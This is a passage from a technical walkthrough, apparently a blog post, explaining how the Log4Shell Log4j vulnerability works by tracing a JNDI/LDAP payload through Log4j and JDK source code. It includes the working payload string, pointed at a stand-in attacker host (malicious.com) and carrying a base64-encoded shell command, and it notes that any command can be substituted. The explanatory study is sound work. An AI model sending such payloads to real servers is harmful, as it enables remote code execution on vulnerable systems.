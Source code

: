 There are different components to this payload that will come into play in different parts of the exploit:

* The first part is the string interpolation syntax and JNDI prefix `${jndi:ldap://...}` which will instruct Log4j to interpolate the value for the name that follows using the LDAP substitution mechanism in JNDI.
* Next comes the host and port `malicious.com:1389`, which will direct the LDAP request to the attacker's server.
* The URL path instructs the attacker's server as to what kind of response to construct. The last component of this path, `dG91Y2ggL3RtcC9wd25lZAo=`, is the base64 encoding of the shell command, "touch /tmp/pwned", which we desire to execute on the vulnerable server. (This command is obviously innocuous, but the attacker could make the vulnerable server execute any arbitrary command by base64-encoding it and including that as part of the header value.)

Inside Log4j, there is a method for substituting values in format strings. It looks for the string interpolation syntax, `${}`:

https://sourcegraph.com/github.com/apache/logging-log4j2@rel/2.14.1/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/MessagePatternConverter.java?L128-134

Further down the call stack, we get into the interpolation logic, which selects a lookup method based on the prefix of the name stored in the argument `String var`, which is `jndi:ldap://malicious.com:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=`:

https://sourcegraph.com/github.com/apache/logging-log4j2@4b789c8/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java?L217-232

The `jndi` prefix selects for the JNDI lookup, which brings us into the `JNDIManager` class:

https://sourcegraph.com/github.com/apache/logging-log4j2@rel/2.14.1/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java?L171-173

The value of the `String name` argument is `ldap://malicious.com:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=`. This method sits at the interface between Log4j and JNDI. In Log4j versions 2.14 and prior, it's the pretty short passthrough method shown above. In subsequent patched Log4j versions, however, the method has been significantly lengthened to include sanitization and filtering steps:

https://sourcegraph.com/github.com/apache/logging-log4j2@4b789c8572d1762cd55f051971d91e44f0628908/-/blob/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java?L221-274

This updated version of the method hints at the specific exploit paths that are now guarded against. Whitelists have been added for allowed hosts, protocols, and class names, with special attention paid to names that use the `ldap://` URL scheme. This extra sanitization code would catch our attacker payload and prevent the name from being passed to JNDI.

Why exactly is our `ldap://`-prefixed payload so dangerous if passed directly to `this.context.lookup()`? Let us find out.


## Part 2: JNDI

In this part of our journey, we leave the Log4j codebase for the source code for JNDI, in the JDK. [JNDI](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html) is a directory name lookup API that enables named resources to be loaded at runtime. Relevant to our attack, if the lookup names are LDAP URLs, *the loadable resources can be Java classes*.
